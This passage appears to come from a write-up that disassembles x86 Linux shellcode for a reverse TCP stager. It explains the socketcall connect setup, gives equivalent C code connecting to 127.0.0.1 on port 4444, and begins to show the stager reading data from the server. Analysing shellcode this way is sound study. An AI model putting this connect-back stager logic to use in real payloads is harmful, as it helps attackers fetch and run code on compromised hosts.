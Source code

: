 ```nasm
0000001B  89E1              mov ecx,esp

                            ; syscall 102 (0x66): socketcall
0000001D  6A66              push byte +0x66
0000001F  58                pop eax
```

```nasm
                            ; size of the sockaddr struct
00000020  50                push eax

                            ; Pointer to the sockaddr struct
00000021  51                push ecx

                            ; File Descriptor of the Server Socket
00000022  57                push edi

                            ; 2nd argument of socketcall(): pointer to arguments of connect()
00000023  89E1              mov ecx,esp
```

{% sidenote Based on the manual page of `socketcall`, `ECX` contains a pointer to the arguments for the function called, in this case `SYS_CONNECT`. %}

```nasm
                            ; 1st argument of socketcall(): SYS_CONNECT (EBX = 3)
00000025  43                inc ebx

00000026  CD80              int 0x80
```

The instructions above can be converted into the following C code:

```cpp
struct sockaddr_in client_address;

client_address.sin_family = AF_INET;
inet_aton("127.0.0.1", &client_address.sin_addr);
client_address.sin_port = htons(4444);

connect(fd, (struct sockaddr *)&client_address, sizeof(client_address));
```

After that, data is read from the server:

```nasm
                            ; File Descriptor of the Server Socket
00000028  5B                pop ebx

00000029  99                cdq

                            ; EDX = 0x00000c00 (3072)
0000002A  B60C              mov dh,0xc
```

{% sidenote Since `connect()` stores `0x0` into `EAX` on success, after `CDQ`, the register `EDX` is zeroed %}
